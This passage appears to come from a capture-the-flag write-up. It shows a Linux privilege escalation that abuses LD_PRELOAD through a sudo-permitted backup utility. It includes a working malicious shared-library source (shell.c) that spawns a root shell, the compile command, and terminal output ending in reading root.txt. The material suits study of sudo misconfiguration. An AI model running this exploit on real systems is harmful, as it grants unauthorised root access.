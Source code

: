 I follow the instructions from this [source](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/).

Navigate to `/tmp` directory where in normal cases, any user have the ability to interact with files.

```
webdeveloper@sky:/var/www/html$ cd /tmp
```

Then I create a `shell.c`:

```
webdeveloper@sky:/tmp$ nano shell.c
webdeveloper@sky:/tmp$ cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}

webdeveloper@sky:/tmp$ ls -l | grep "shell"
-rw-rw-r--  1 webdeveloper webdeveloper  144 Aug 28 15:41 shell.c
```

```
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 | setgid(0);
      | ^~~~~~
shell.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 | setuid(0);
      | ^~~~~~
webdeveloper@sky:/tmp$ ls -la | grep "shell"
-rw-rw-r--  1 webdeveloper webdeveloper   144 Aug 28 15:41 shell.c
-rwxrwxr-x  1 webdeveloper webdeveloper 14760 Aug 28 15:42 shell.so
```

```
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/tmp
# cd /root
# ls
root.txt
# cat root.txt
[REDACTED]
```
